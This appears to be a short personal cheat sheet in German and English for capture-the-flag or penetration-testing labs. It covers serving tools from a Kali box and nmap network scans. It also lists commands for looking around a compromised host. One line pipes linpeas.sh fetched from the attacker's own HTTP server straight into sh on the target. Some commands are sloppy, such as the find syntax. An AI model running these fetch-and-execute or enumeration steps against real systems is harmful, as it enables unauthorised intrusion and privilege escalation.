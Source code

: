 #### Python Webserver Aufmachen
Im Home Pfad
`python3 -m http.server`
Port ist 8000

Aufm Server für linpeas holen
`curl http://0.0.0.0:8000/Cyber/Tools/linpeas.sh | sh`
oder
`wget <myIP>:8000/Cyber/Tools/linpeas.sh`
`./linpeas.sh`

#### Netzwerk Scan
Recool starten
`python3 recool.py -I eth1 -s /home/kali/Cyber/scanResults --nplan-path /home/kali/go/bin/nplan -u`

Ivo starten
`nmapScenarioScan.py eth1`
`nmap -A -p- -T4 10.166.{Subnetze}.{Maschinen}`

#### What to look for on a new System
Banner anschauen beim Verbinden
`!!!`

Ordner anschauen 
`ls -la`

Environment Variables
`printenv`

Bash History
`.bashhistory`
(im home Directory)

Prozesse anschauen
`ps -ef`

Mounted Filesystems anschauen
`df -h`
[[Linux Basics]]

Nach flags in Dateien suchen
`find / interesting_file`
`find / interesting_file | grep intersting_file`
[[Search Things]]